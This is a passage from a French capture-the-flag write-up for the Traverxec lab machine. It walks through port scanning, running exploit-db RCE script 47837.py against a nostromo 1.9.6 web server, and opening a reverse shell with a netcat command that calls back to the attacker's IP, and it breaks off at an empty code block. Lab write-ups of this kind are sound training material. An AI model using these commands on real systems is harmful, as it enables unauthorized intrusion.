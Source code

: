 ![Pic1](../img/traverxec1.PNG?raw=true) </br>

# Présentation
Traverxec est une box Linux dont l'adresse IP est 10.10.10.165.</br>

Compétences mises en oeuvre :</br>
* Enumération des ports et services d'une machine distante.


</br>

# Enumération initiale

Nous commençons l'énumération par les ports et services disponibles avec nmap :
```bash
$ nmap -T4 -A 10.10.10.165
```
![Pic2](../img/traverxec2.PNG?raw=true) </br>
Deux ports sont ouverts :</br>
* 22 pour un OpenSSH en version 7.9
* 80 pour un serveur web nostromo en version 1.9.6
</br>

Nous allons faire une énumération des fichiers et dossiers présents sur le site web avec dirsearch :  
```bash
$ dirsearch -w wordlist -e "php,txt" -f -t 100 -x 400,403,404,501 -u http://10.10.10.165/
```
![Pic3](../img/traverxec3.PNG?raw=true) </br>

# Obtenir un accès utilisateur
Nous avons vu que le serveur web en écoute était un nostromo 1.9.6, ce qui n'est pas commun, nous allons voir s'il existe un exploit pour 
cette version avec searchsploit :
```bash
$ searchsploit nostromo
```
![Pic4](../img/traverxec4.PNG?raw=true) </br>

Nous allons chercher la RCE qui correspond à la version de nostromo et l'executer :
```bash
$ locate 47837.py
$ cp /usr/share/exploitdb/exploits/multiple/remote/47837.py ./
$ cat 47837.py
```
![Pic5](../img/traverxec5.PNG?raw=true) </br>
Pour l'utiliser, il faut mettre en argumant l'ip de la box + son port + la commande à exécuter, donc nous testons :
```bash
$ python 47837.py 10.10.10.165 80 hostname
```
![Pic6](../img/traverxec6.PNG?raw=true) </br>
Nous allons alors utiliser le netcat de la box pour obtenir un shell :
```bash
# Nous mettons un listener sur notre machine :
$ nc -lvnp 4567
# Toujours sur notre machine mais sur un autre shell :
$ python 47837.py 10.10.10.165 80 "nc 10.10.14.6 4567 -c bash"
```
![Pic7](../img/traverxec7.PNG?raw=true) </br>
Nous avons un shell en tant que www-data, nous allons faire de l'énumération de base :
```bash
$ python -c "import pty;pty.spawn('/bin/bash')"
$ find / -type d -perm 0755 2>/dev/null
```
![Pic8](../img/traverxec8.PNG?raw=true) </br>
Un résultat plutot dense mais nous pouvons voir que nous avons accès a plusieurs fichiers de Nostromo, y compris son fichier de configuration :
```bash
